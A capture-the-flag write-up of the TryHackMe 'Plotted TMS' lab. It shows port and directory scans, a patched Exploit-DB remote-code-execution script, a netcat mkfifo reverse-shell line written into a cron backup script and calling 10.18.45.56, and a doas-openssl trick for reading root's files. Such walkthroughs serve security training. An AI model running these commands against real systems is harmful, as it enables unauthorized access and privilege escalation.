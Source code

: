 ```yaml
---
layout: post
title:  "Plotted TMS"
categories: [tryhackme]
tags: [linux]
---
```


### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -sS -sV 10.10.1.194   

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Directory Scan Port 445

```bash
┌──(kali㉿Zeus)-[~]
└─$ dirb http://10.10.1.194:445           
<snip>
==> DIRECTORY: http://10.10.1.194:445/management/
==> DIRECTORY: http://10.10.1.194:445/management/admin/
==> DIRECTORY: http://10.10.1.194:445/management/assets/
==> DIRECTORY: http://10.10.1.194:445/management/build/
==> DIRECTORY: http://10.10.1.194:445/management/classes/
==> DIRECTORY: http://10.10.1.194:445/management/database/
<snip>
```

### Traffic Offense Management System - Remote Code Execution (RCE) (Unauthenticated)

![image]( /assets/img/plottedtms/2.PNG)

![image]( /assets/img/plottedtms/3.PNG)

```bash
locate php/webapps/50221.py
cp /usr/share/exploitdb/exploits/php/webapps/50221.py .
2to3 -w 50221.py
```

There was an error with the script so i edit the line 107

- before

```python
request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
```

- after

```python
request = requests.post("http://10.10.1.194:445"+find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
```

### RCE Confirmed 

![image]( /assets/img/plottedtms/4.PNG)

### Privileges Escalation - User Owned

![image]( /assets/img/plottedtms/5.PNG)

![image]( /assets/img/plottedtms/6.PNG)

- Change the backup.sh content 

```bash
rm -rf backup.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.18.45.56 5555 >/tmp/f" > backup.sh
chmod 777 backup.sh
chmod +x backup.sh
```

![image]( /assets/img/plottedtms/7.PNG)

### Privileges Escalation - Root Owned

```bash
plot_admin@plotted:~$ find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/doas
<snip>
```

- Resource : https://book.hacktricks.xyz/linux-unix/privilege-escalation#doas
- Resource : https://gtfobins.github.io/gtfobins/openssl/#file-read

```bash
permit nopass plot_admin as root cmd openssl
```

![image]( /assets/img/plottedtms/8.PNG)


```bash
LFILE=/root/root.txt
doas -u root openssl enc -in "$LFILE"
```


![image]( /assets/img/plottedtms/9.PNG)
